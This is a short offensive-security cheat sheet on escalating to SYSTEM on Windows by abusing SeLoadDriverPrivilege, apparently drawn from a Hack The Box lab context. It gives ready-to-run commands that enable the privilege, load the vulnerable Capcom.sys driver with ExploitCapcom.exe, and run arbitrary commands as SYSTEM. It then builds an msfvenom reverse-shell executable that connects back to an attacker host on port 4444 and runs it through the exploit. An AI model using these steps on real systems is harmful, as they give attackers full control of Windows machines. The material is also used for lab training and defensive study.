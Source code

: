 # SeLoadDriver Privilege

{% embed url="https://0xdf.gitlab.io/2020/10/31/htb-fuse.html#strategy" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#capcom.sys-driver-exploit" %}

{% embed url="https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-accounts-and-token-privileges" %}

{% embed url="https://github.com/k4sth4/SeLoadDriverPrivilege" %}

The last github has all the instructions.&#x20;

Upload the driver [eoploaddriver\_x64.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/eoploaddriver\_x64.exe), [Capcom.sys file](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/Capcom.sys), [ExploitCapcom.exe](https://github.com/k4sth4/SeLoadDriverPrivilege/blob/main/ExploitCapcom.exe) on target machine under writable directory.

First we need to turn on the privilege of SeLoadDriverPrivilege that is disabled.

```
.\eoploaddriver_x64.exe System\\CurrentControlSet\\dfserv C:\\Temp\\Capcom.sys
```

Now using ExploitCapcom.exe load Capcom.sys to target machine.

```
.\ExploitCapcom.exe LOAD C:\Temp\Capcom.sys
```

After successfully loading Capcom.sys we can now run any cmd as privilege user with EXPLOIT keyword.

```
.\ExploitCapcom.exe EXPLOIT whoami
```

Now we can generate a revshell with msfvenom. You can also use other revshell. On Attacker vm.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f exe > shell.exe
```

Upload it on Traget machine. Now execute the payload.

```
.\ExploitCapcom.exe EXPLOIT shell.exe
```

You gonna get reverse shell as SYSTEM.

![](../../../../.gitbook/assets/2022-08-17\_12-40.png)

![](../../../../.gitbook/assets/2022-08-17\_12-41.png)
